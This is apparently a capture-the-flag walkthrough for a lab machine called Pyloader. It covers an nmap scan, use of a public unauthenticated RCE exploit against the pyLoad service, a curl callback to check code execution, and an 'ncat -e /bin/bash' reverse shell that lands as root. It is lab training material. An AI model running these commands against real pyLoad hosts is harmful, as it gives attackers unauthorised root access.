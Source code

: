 _____

# Walkthrough for Pyloader

## Enumeration

- Running a full port scan on `nmap`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
9666/tcp open  http    CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad
|_Requested resource was /login?next=http://192.168.1.33:9666/
MAC Address: 08:00:27:5D:CB:59 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 9666 is open. Heading to `http://192.168.1.33:9666` , it waits for some time and then redirects me to a login page which is located at `http://192.168.1.33:9666/login?next=http://192.168.1.33:9666/`.

Searching for `pyload` on google, we came across to the following exploit db entry [https://www.exploit-db.com/exploits/51532](https://www.exploit-db.com/exploits/51532).

It is an unauthenticated RCE, We don't need any credentials.

## Exploitation

We can use it like below,

```bash
└─# python3 exploit.py
usage: exploit.py [-h] -u URL -c CMD
exploit.py: error: the following arguments are required: -u, -c
```

```bash
└─# python3 exploit.py -u 'http://192.168.1.33:9666' -c 'curl 192.168.1.44:1234'                      
[+] Check if target host is alive: http://192.168.1.33:9666
[+] Host up, let's exploit!
```

```bash
└─# nc -lvnp 1234

Listening on 0.0.0.0 1234
Connection received on 192.168.1.33 42372
GET / HTTP/1.1
Host: 192.168.1.44:1234
User-Agent: curl/7.81.0
Accept: */*
```

After verifying that exploit works we can go ahead and get a shell

```bash
└─# python3 exploit.py -u 'http://192.168.1.33:9666' -c 'ncat -e /bin/bash 192.168.1.44 1234'    
[+] Check if target host is alive: http://192.168.1.33:9666
[+] Host up, let's exploit!
```

We got code execution as root directly.

```bash
└─# nc -lvnp 1234   

Listening on 0.0.0.0 1234
Connection received on 192.168.1.33 55976
whoami
root
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@pyloader:~/.pyload/data#
root@pyloader:~/.pyload/data# cat /root/proof.txt

..
```

